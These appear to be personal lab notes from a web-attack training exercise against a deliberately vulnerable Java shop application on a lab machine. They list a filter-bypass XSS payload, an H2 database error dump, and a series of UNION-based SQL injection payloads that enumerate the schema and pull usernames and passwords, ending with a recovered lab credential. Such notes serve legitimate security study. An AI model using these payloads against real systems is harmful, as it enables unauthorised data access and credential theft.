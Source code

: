 # Web application
Windows 10 Lab Machine - 192.168.141.10
```cmd
C:\tools\web_attacks> java -jar gadgets-1.0.0.jar
```

Access on port 9090
![[Pasted image 20221222225027.png]]

# XSS
```
<scr<script>ipt>alert('XSS')</scr</script>ipt>
```

Outputs:
7 alerts
StatementCallback; bad SQL grammar [SELECT * FROM items WHERE UPPER(name) like UPPER(=='%%'==) or UPPER(description) like UPPER(=='%%'==) order by name asc]; nested exception is org.h2.jdbc.JdbcSQLSyntaxErrorException: Syntax error in SQL statement "SELECT * FROM ITEMS WHERE UPPER(NAME) LIKE UPPER(=='%%'==) OR UPPER(DESCRIPTION) LIKE UPPER(=='%%'==) ORDER BY NAME ASC "; expected "[, ::, *, /, %, +, -, ||, ~, !~, NOT, LIKE, ILIKE, REGEXP, IS, IN, BETWEEN, AND, OR, ,, )"; SQL statement: SELECT * FROM items WHERE UPPER(name) like UPPER(=='%%'==) or UPPER(description) like UPPER(=='%%'==) order by name asc [42001-199]


# SQL
```
gizmo%') --
gizmo%') or 1=1 --
%') or 1=1 order by 5--
%') or 1=1 union select all 1,2,3,4,5--
%') or 1=1 union select 1,'title','description',4,5--
%') or 1=1 union select 1,'title',schema(),4,5--



%') or 1=1 union select 1,'title',database(),4,5--
%') or 1=1 union select 1,'title',user(),4,5--
%') or 1=1 union select 1,'title',version(),4,5--
%') or 1=1 union select 1,group_concat(table_name),table_name,4,5 from information_schema.tables where table_schema=database()--
%') or 1=1 union select 1,group_concat(column_name),column_name,4,5 from information_schema.columns where table_schema=database()--
%') or 1=1 union select 1,group_concat(username),group_concat(password),4,5 from users--
```
* Max cols = 5
* superuser:stillcl3art3xt